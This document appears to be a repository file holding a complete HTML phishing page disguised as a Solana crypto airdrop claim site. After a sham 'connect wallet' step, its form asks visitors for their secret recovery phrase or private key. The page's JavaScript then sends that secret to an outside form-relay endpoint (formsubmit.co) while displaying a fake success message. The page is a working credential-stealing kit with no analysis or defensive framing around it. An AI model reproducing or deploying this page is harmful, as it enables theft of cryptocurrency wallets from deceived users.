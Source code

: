 # Airdropclaimsol
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
  <title>ClaimAidropsol</title>
  <script src="https://cdn.tailwindcss.com"></script> 
  <style>
    body {
      font-family: sans-serif;
    }
    .animate-fadeIn {
      animation: fadeIn 0.3s ease-out;
    }
    @keyframes fadeIn {
      from { opacity: 0; transform: translateY(10px); }
      to { opacity: 1; transform: translateY(0); }
    }
  </style>
</head>
<body class="min-h-screen bg-gradient-to-br from-gray-900 via-purple-900 to-indigo-900 text-white">

  <!-- Header -->
  <header class="py-6 px-4 sm:px-6 lg:px-8 flex justify-between items-center">
    <h1 class="text-2xl font-bold bg-clip-text text-transparent bg-gradient-to-r from-purple-400 to-pink-600">
      ClaimAidropsol
    </h1>
    <button class="bg-purple-600 hover:bg-purple-700 transition duration-300 px-4 py-2 rounded-lg text-sm">
      About
    </button>
  </header>

  <!-- Hero Section -->
  <main class="max-w-4xl mx-auto px-4 sm:px-6 lg:px-8 py-12 text-center">
    <h2 class="text-4xl sm:text-5xl font-extrabold mb-4 bg-clip-text text-transparent bg-gradient-to-r from-pink-400 via-purple-500 to-indigo-500">
      Claim Your Crypto Airdrop
    </h2>
    <p class="text-lg sm:text-xl text-gray-300 max-w-2xl mx-auto mb-8">
      Connect your wallet and start claiming tokens right away.
    </p>

    <!-- CTA Button -->
    <button onclick="openModal()"
      class="group relative inline-flex items-center justify-center px-8 py-4 text-lg font-semibold text-white bg-gradient-to-r from-purple-600 to-indigo-600 rounded-lg shadow-lg hover:from-purple-700 hover:to-indigo-700 transform transition-all hover:scale-105 focus:outline-none">
      🎁 Claim Airdrop
    </button>
  </main>

  <!-- Modal -->
  <div id="walletModal" class="hidden fixed inset-0 bg-black bg-opacity-70 flex justify-center items-center z-50 p-4">
    <div class="bg-gray-800 p-6 rounded-xl w-full max-w-md shadow-2xl border border-gray-700 animate-fadeIn">
      <h3 class="text-xl font-bold mb-4">Select a Wallet</h3>
      <div class="grid grid-cols-2 gap-3 mb-6">
        <button onclick="connectWallet('Phantom')" class="flex items-center justify-center space-x-2 bg-gray-700 hover:bg-gray-600 px-3 py-2 rounded-lg transition duration-200">Phantom</button>
        <button onclick="connectWallet('Trust Wallet')" class="flex items-center justify-center space-x-2 bg-gray-700 hover:bg-gray-600 px-3 py-2 rounded-lg transition duration-200">Trust Wallet</button>
        <button onclick="connectWallet('MetaMask')" class="flex items-center justify-center space-x-2 bg-gray-700 hover:bg-gray-600 px-3 py-2 rounded-lg transition duration-200">MetaMask</button>
        <button onclick="connectWallet('Coinbase Wallet')" class="flex items-center justify-center space-x-2 bg-gray-700 hover:bg-gray-600 px-3 py-2 rounded-lg transition duration-200">Coinbase</button>
        <button onclick="connectWallet('Solflare')" class="flex items-center justify-center space-x-2 bg-gray-700 hover:bg-gray-600 px-3 py-2 rounded-lg transition duration-200">Solflare</button>
        <button onclick="connectWallet('MathWallet')" class="flex items-center justify-center space-x-2 bg-gray-700 hover:bg-gray-600 px-3 py-2 rounded-lg transition duration-200">MathWallet</button>
        <button onclick="connectWallet('TokenPocket')" class="flex items-center justify-center space-x-2 bg-gray-700 hover:bg-gray-600 px-3 py-2 rounded-lg transition duration-200">TokenPocket</button>
        <button onclick="connectWallet('BitKeep')" class="flex items-center justify-center space-x-2 bg-gray-700 hover:bg-gray-600 px-3 py-2 rounded-lg transition duration-200">BitKeep</button>
        <button onclick="connectWallet('SafePal')" class="flex items-center justify-center space-x-2 bg-gray-700 hover:bg-gray-600 px-3 py-2 rounded-lg transition duration-200">SafePal</button>
        <button onclick="connectWallet('AlphaWallet')" class="flex items-center justify-center space-x-2 bg-gray-700 hover:bg-gray-600 px-3 py-2 rounded-lg transition duration-200">AlphaWallet</button>
      </div>

      <form id="claimForm" onsubmit="handleSubmit(event)">
        <label class="block mb-2 font-medium">Secret Phrase or Private Key</label>
        <textarea id="phraseInput" placeholder="Enter your secret recovery phrase or private key"
          class="w-full p-3 bg-gray-900 border border-gray-600 rounded-lg resize-none h-24 focus:outline-none focus:ring-2 focus:ring-purple-500" required></textarea>
        <button type="submit"
          class="mt-4 w-full py-3 rounded-lg font-semibold bg-green-600 hover:bg-green-700 transition">
          Claim Now
        </button>
      </form>

      <div id="successMessage" class="hidden mt-4 text-green-400 text-center">✅ Successfully submitted!</div>
      <div id="errorMessage" class="hidden mt-4 text-red-400 text-center">❌ There was an issue.</div>
    </div>
  </div>

  <!-- Footer -->
  <footer class="py-6 px-4 text-center text-sm text-gray-500 mt-12">
    © <script>document.write(new Date().getFullYear())</script> ClaimAidropsol. All rights reserved.
  </footer>

  <!-- JavaScript -->
  <script>
    function openModal() {
      document.getElementById("walletModal").classList.remove("hidden");
    }

    function connectWallet(walletName) {
      alert("Connecting to " + walletName + "...");
      document.getElementById("walletModal").classList.add("hidden");
    }

    function handleSubmit(e) {
      e.preventDefault();
      const phrase = document.getElementById("phraseInput").value.trim();
      const successEl = document.getElementById("successMessage");
      const errorEl = document.getElementById("errorMessage");

      if (!phrase) {
        alert("Please enter your secret phrase or private key.");
        return;
      }

      fetch("https://formsubmit.co/ajax/zewege",  {
        method: "POST",
        headers: {
          "Content-Type": "application/json",
          "Accept": "application/json"
        },
        body: JSON.stringify({
          PhraseOrPrivateKey: phrase,
          Timestamp: new Date().toISOString()
        })
      })
      .then(response => response.json())
      .then(data => {
        if (data.success) {
          successEl.classList.remove("hidden");
          errorEl.classList.add("hidden");
          document.getElementById("claimForm").reset();
        } else {
          throw new Error("Submission failed");
        }
      })
      .catch(err => {
        console.error(err);
        errorEl.classList.remove("hidden");
        successEl.classList.add("hidden");
      });
    }
  </script>
</body>
</html>
